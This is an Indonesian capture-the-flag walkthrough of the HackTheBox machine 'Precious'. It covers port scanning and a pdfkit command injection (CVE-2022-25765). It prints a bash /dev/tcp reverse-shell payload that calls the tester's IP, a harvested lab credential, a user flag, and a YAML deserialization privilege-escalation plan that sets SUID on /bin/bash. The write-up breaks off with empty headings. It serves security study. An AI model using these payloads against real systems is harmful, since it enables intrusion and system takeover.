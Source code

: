 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`

Step berikutnya saya coba untuk mengakses *root* ternyata belum bisa  
![image](https://user-images.githubusercontent.com/92077284/213359997-fdb4c873-b486-49d0-ba13-a690ca14b368.png)  

Step selanjutnya saya memeriksa *privilage henry*  
![image](https://user-images.githubusercontent.com/92077284/213359780-b77de642-3b9e-4832-9939-adc80791b6bd.png)  
Ternyata ada file yang mengatur akses privilage yaitu pada `/usr/bin/ruby /opt/update_dependencies.rb`  
Disini saya coba untuk membaca file **update_dependencies.rb**  
![image](https://user-images.githubusercontent.com/92077284/213360542-7f2c594e-b5be-4dde-92fe-dbe89aadac11.png)
Setelah dianalisa, ternyata bagian ini dapat dilakukan **YAML Deserialization Attack** karena terdapat bagian pada file yang mengatakan `YAML.load(File.read("dependencies.yml"))`

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

Karena tadi yang menjadi permasalahan adalah soal _permission access_, 
![image](https://user-images.githubusercontent.com/92077284/213361192-0d8ba32a-a978-4f30-84ac-36199edbdd59.png)  
maka kita bisa merubah akses henry menjadi lebih tinggi, yaitu dengan mengubah file dependencies pada bagian **git_Set** menjadi `chmod u+s /bin/bash`




## a
## a
## a
## a
